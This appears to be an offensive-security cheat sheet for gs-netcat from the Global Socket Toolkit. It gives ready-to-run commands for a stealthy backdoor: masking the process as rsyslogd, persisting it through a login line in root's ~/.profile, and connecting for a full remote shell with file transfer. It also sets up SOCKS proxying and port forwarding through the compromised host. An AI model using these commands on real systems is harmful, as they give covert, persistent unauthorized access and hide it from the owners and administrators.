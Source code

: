 # gs-netcat

### Overview

The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

More on [https://www.gsocket.io](https://www.gsocket.io).

### Non Persistent backdoor

```
$(GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /path/to/gs-netcat")
```

### Client Connection

```
gs-netcat -i -s MySecret
```

* Above will spawn a full pty giving you the option to tab complete and use up arrow as long as CTRL+C

### Persisting the Server

The following line in the user's \~/.profile starts the backdoor (once) when the user logs in. All in one line:

The '( )' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as rsyslogd) from the process list.

```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret -liqD" SHELL=/bin/bash exec -a rsyslogd /path/to/gs-netcat)
```

* Ensure there are no syntax errors or the next time a user logs in they will see this message&#x20;

```
ssh root@ubuntu.space
root@ubuntu.space's password: 
Last login: Mon Dec 30 19:29:55 2024 from 192.168.15.172
-bash: /root/.profile: line 11: syntax error: unexpected end of file
```

* when you are connected to the backdoor this is how your process will look&#x20;

```
1 S root         442       1  0  80   0 -   794 do_wai 19:43 ?        00:00:00 rsyslogd
1 S root         443     442  0  80   0 -   829 do_sel 19:43 ?        00:00:00  \_ rsyslogd
0 S root         528     443  0  80   0 -  2105 do_sel 19:47 pts/4    00:00:00      \_ -bash
```

* above will occur no matter how you connect to the server

```
gs-netcat -s MySecret
gs-netcat -s -i MySecret
```

### Command Console

* If you connect to a listening gs-netcat server with the below options you will have access to the command console

```
gs-netcat -i -s MySecret 
```

* access it with CTRL+E c, you will see the below

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

* this nicely provides a way to upload and download files as well as local commands just like in metasploit i.e. lls lcd

### Proxies

#### Server to act as a SOCKS4/4a/5 server:

```
gs-netcat -s MySecret -l -S
```

Client to listen on TCP port 1080 and forward any new connection to the server's SOCKS server:

```
gs-netcat -s MySecret -p 1080
```

#### TCP Port Forward all connections to 192.168.6.7:22

Server:

```
gs-netcat -s MySecret -l -d 192.168.6.7 -p 22 
```

Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.

```
gs-netcat -s MySecret -p 2222
ssh -p 2222 root@127.0.0.1
```

The same using 1 command:

```
ssh -o ProxyCommand='gs-netcat -s MySecret' root@ignored
```

